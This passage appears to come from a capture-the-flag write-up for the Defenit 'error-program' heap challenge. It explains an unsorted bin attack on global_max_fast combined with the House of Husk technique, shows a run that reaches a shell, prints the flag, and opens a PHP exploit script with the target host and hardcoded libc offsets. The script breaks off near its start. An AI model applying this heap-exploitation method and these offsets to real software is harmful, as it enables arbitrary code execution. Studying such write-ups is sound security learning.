 ```
YOUR CHOICE? : 1
INDEX? : 2
SIZE? : 4096
ALLOCATE FINISH.

[...]
YOUR CHOICE? : 2
INDEX? : 1
FREE FINISH.

[...]
YOUR CHOICE? : 4
INDEX? : 1
DATA :  pío pío
```

### Unsorted bin attack

This setup is also favorable to `unsorted bin attack` : overwrite `bk` and the
next allocation will write a pointer to `bk + 0x10`.

The go-to target for this attack is to overwrite `global_max_fast`. This global
variable is set with `mallopt` with `param = M_MXFAST`. This lets a developper
change the upper limit of fastbins size.

If this variable is big enough, almost every freed chunk will be added to the
`main_arena.fastbinsY` array, allowing one to overwrite global variables
with pointers to freed chunks.

`ptr-yudai` wrote a good article about a relatively new exploit technique they
called [`House of Husk`](https://ptr-yudai.hatenablog.com/entry/2020/04/02/111507).

The libc used for the challenge is the same as the one used in the article. The
offsets can be reused as-is.

```
% ./ld-2.27.so --library-path . ./husk
libc @ 0x66156ef99000
sh-5.0$ 
```
House of Husk requires a call to `printf` with a formatting argument. When the
canary of the buffer overflow menu is invalid, the program will call
`printf("%x", canary);`. This can be used to execute the one gadget.


**Flag**: `Defenit{1ntend:H0us3_0f_!@#$_and_us3_scanf}`

## Appendices

### pwn.php

```php
#!/usr/bin/php
<?php // vim: filetype=php
const HOST = "error-program.ctf.defenit.kr";
const PORT = 7777;

/* https://ptr-yudai.hatenablog.com/entry/2020/04/02/111507 */
const MAIN_ARENA       = 0x3ebc40;
const MAIN_ARENA_DELTA = 0x60;
const GLOBAL_MAX_FAST  = 0x3ed940;
const PRINTF_FUNCTABLE = 0x3f0658;
const PRINTF_ARGINFO   = 0x3ec870;
const ONE_GADGET       = 0x10a38c;

function menu(Tube $t)
```